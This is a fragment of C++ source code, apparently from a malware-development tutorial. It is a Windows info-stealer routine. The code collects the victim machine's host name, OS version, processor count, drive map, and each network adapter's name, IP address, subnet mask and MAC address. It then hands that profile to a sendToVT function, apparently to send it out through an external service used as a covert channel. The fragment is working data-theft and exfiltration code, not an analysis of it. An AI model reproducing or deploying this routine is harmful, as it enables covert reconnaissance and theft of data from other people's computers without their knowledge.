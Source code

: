 ```cpp
  DWORD size = sizeof(hostName) / sizeof(hostName[0]);
  GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

  // Get OS version
  OSVERSIONINFO osVersion;
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);

  // Get system information
  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);

  // Get logical drive information
  DWORD drives = GetLogicalDrives();

  // Get IP address
  IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
  DWORD adapterInfoSize = sizeof(adapterInfo);
  if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
    printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
    return false;
  }

  snprintf(systemInfo, sizeof(systemInfo),
    "Host Name: %s, "
    "OS Version: %d.%d.%d, "
    "Processor Architecture: %d, "
    "Number of Processors: %d, "
    "Logical Drives: %X, ",
    hostName,
    osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
    sysInfo.wProcessorArchitecture,
    sysInfo.dwNumberOfProcessors,
    drives);

  // Add IP address information
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
    snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
    "Adapter Name: %s, "
    "IP Address: %s, "
    "Subnet Mask: %s, "
    "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X",
    adapter->AdapterName,
    adapter->IpAddressList.IpAddress.String,
    adapter->IpAddressList.IpMask.String,
    adapter->Address[0], adapter->Address[1], adapter->Address[2],
    adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }

  int result = sendToVT(systemInfo);

  if (result == 0) {
    printf("ok =^..^=\n");
  } else {
    printf("nok <3()~\n");
  }

  return 0;
}
```
